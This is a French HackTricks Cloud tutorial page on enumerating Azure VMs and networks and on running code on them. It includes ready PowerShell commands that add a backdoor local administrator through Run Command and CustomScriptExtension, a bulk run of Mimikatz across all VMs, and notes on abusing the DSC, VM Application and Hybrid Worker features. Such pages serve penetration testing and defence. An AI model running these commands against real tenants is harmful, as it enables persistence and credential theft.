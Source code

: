 # Az - Machines Virtuelles & Réseau

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Informations de base

Les machines virtuelles Azure sont l'un des types de [ressources informatiques évolutives et à la demande](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) qu'Azure propose. Typiquement, vous choisissez une machine virtuelle lorsque vous avez besoin de plus de contrôle sur l'environnement informatique que les autres options offrent. Cet article vous fournit des informations sur ce que vous devez considérer avant de créer une machine virtuelle, comment la créer et comment la gérer.

## Informations sur le Réseau Azure

Les réseaux Azure contiennent **différentes entités et manières de les configurer.** Vous pouvez trouver une brève **description,** **exemples** et **commandes d'énumération** des différentes entités de réseau Azure dans :

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** est un service entièrement géré qui fournit un **accès RDP** (Remote Desktop Protocol) et **SSH** (Secure Shell) **sécurisé et transparent** à vos **machines virtuelles directement dans le portail Azure via SSL**. Ce service est une alternative plus sécurisée et pratique **à l'exposition de vos machines virtuelles aux connexions Internet publiques**. Azure Bastion est provisionné au sein de votre Réseau Virtuel Azure, offrant une connectivité RDP et SSH à toutes les VMs dans le VNet en utilisant des adresses IP privées, ce qui signifie que vous n'avez pas besoin d'attribuer des adresses IP publiques à vos VMs Azure.

Ainsi, si votre entreprise héberge plusieurs VMs au sein d'un VNet Azure pour le développement et les tests. **Au lieu de configurer des adresses IP publiques et de gérer des règles NSG** pour chaque VM afin de permettre l'accès RDP ou SSH, vous **déployez Azure Bastion**. Avec Azure Bastion, vos développeurs et personnel IT peuvent **accéder à ces VMs depuis le portail Azure en utilisant leurs navigateurs web de manière sécurisée** sans avoir besoin d'adresses IP publiques.

Pour lister tous les hôtes Azure Bastion dans votre abonnement, vous pouvez utiliser la commande suivante :

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
## Énumération des VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Exécuter des commandes dans une VM**

### **Connexion AAD dans une VM**

Il est possible de permettre l'accès aux utilisateurs authentifiés via AzureAD. Par exemple, pour essayer d'accéder à une **VM linux** : `ssh username@azure-corp.com@1.1.1.1` (il est important **d'utiliser l'email** avec le azurecorp utilisé lors de la tentative de connexion), vous pourriez obtenir une erreur comme :

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Suivez simplement **ces instructions** en vous rendant sur [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) et en indiquant le code, utilisez l'email et le mot de passe comme identifiants et vous pourrez vous connecter via SSH (si cet utilisateur a suffisamment de permissions pour le faire : rôle `Virtual Machine Administrator Login` ou `Virtual Machine User Login`).

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Exécuter l'extension de script personnalisé**

Les extensions de machine virtuelle (VM) Azure sont de **petites applications** qui fournissent des tâches de configuration et d'automatisation **après déploiement** sur les **VMs Azure**. Par exemple, si une machine virtuelle nécessite l'installation d'un logiciel, une protection antivirus ou la capacité d'exécuter un script à l'intérieur, vous pouvez utiliser une extension VM.

Par conséquent, si vous avez accès en écriture, vous pouvez exécuter du code arbitraire :
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState

**DesiredConfigurationState (DSC)** est similaire à Ansible, mais c'est un outil dans PowerShell qui permet de configurer un hôte via du code. DSC a sa propre extension dans Azure qui permet de télécharger des **fichiers de configuration**. Les [fichiers de configuration](https://docs.microsoft.com/en-us/powershell/dsc/getting-started/wingettingstarted?view=dsc-1.1#define-a-configuration-and-generate-the-configuration-document) DSC sont assez pointilleux en ce qui concerne la syntaxe, cependant l'extension DSC est très crédule et va **exécuter aveuglément toute commande** tant qu'elle suit un certain format, comme illustré dans la figure 5.

<figure><img src="../../../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

Cela peut être fait via la fonction **Az PowerShell** [**`Publish-AzvmdscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0). L'extension DSC nécessite un **.PS1** avec une **fonction** et **emballé** dans un fichier **.zip**. Puisque ce n'est pas la syntaxe DSC correcte, le statut de l'extension indiquera "échec", cependant le code sera exécuté. Le problème est qu'il n'y a pas de sortie de la commande, car le statut est écrasé par le message d'échec.

### VM Application Definitions

La ressource [VM Applications](https://docs.microsoft.com/en-us/azure/virtual-machines/vm-applications) est un moyen de **déployer des applications versionnées de manière répétable** sur une VM Azure. Par exemple, si vous créez un **programme** et le **déployez** sur toutes les VMs Azure en tant que version 1.0, une fois que vous **mettez à jour** le programme **en 1.1**, vous pouvez utiliser la même Application VM pour **créer une autre définition** et pousser la mise à jour sur n'importe quelle VM.\
Être capable de **pousser une application** sur une VM signifie que c'est une autre voie pour l'**exécution de code**. L'inconvénient de cette méthode est que la configuration de la Définition d'Application [**nécessite plusieurs étapes**](https://docs.microsoft.com/en-us/azure/virtual-machines/vm-applications-how-to?tabs=portal), mais peut être accomplie en utilisant les cmdlets **`New-AzGalleryApplication`** et **`New-AzGalleryApplicationVersion`** dans Az PowerShell.

Cette technique fonctionne en utilisant une **extension "VMAppExtension"** qui est automatiquement installée lors de l'application d'une application sur une VM. L'extension télécharge le fichier depuis l'URI sur le disque sous le nom de l'Application _exactement_, ce qui signifie que si le nom de l'application est 'AzApplication', le fichier sur le disque s'appellera également 'AzApplication' sans extension. Cela nécessite que le champ "ManageActions" dans l'appel [REST API](https://docs.microsoft.com/en-us/rest/api/compute/gallery-application-versions/create-or-update) soit configuré pour renommer l'application avec l'extension appropriée. Si vous ne souhaitez pas exécuter une application entière, des commandes PowerShell arbitraires peuvent être exécutées en abusant également du champ ManageActions dans la même méthode REST API ou également via le portail Azure. Une fois configurée, la définition sera similaire à la figure 8.

<figure><img src="../../../../.gitbook/assets/image (11) (3).png" alt=""><figcaption></figcaption></figure>

Cette technique d'exécution est malheureusement lente (environ 3-4 minutes pour exécuter une application ou une commande), cependant étant relativement nouvelle, je serais surpris s'il y a des détections spécifiques écrites.

Puisque c'est une extension qui fait finalement l'exécution, une copie de l'application se trouve à `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` et le statut de l'exécution est conservé dans `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\`.

### Hybrid Worker Groups

Les [**Hybrid Worker Groups**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) (HWGs) permettent à un **Runbook** configuré dans un compte d'automatisation d'être **exécuté** sur une **machine virtuelle Azure** qui fait partie du **HWG configuré**. Encore une fois, une **extension est utilisée** sur la VM pour déployer le code Runbook sur la VM. Puisqu'une extension est utilisée, les identifiants sont sans importance et le code est exécuté en tant que **SYSTEM** ou root.

<figure><img src="../../../../.gitbook/assets/image (2) (5).png" alt=""><figcaption></figcaption></figure>

Si vous utilisez une VM Windows 10, il est important que le Runbook s'exécute en tant que PowerShell Version 5.1 au lieu de 7.1, car 7.1 n'est pas installé par défaut sur les VMs et le script échouera à s'exécuter.

## Références

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF** Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux repos github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
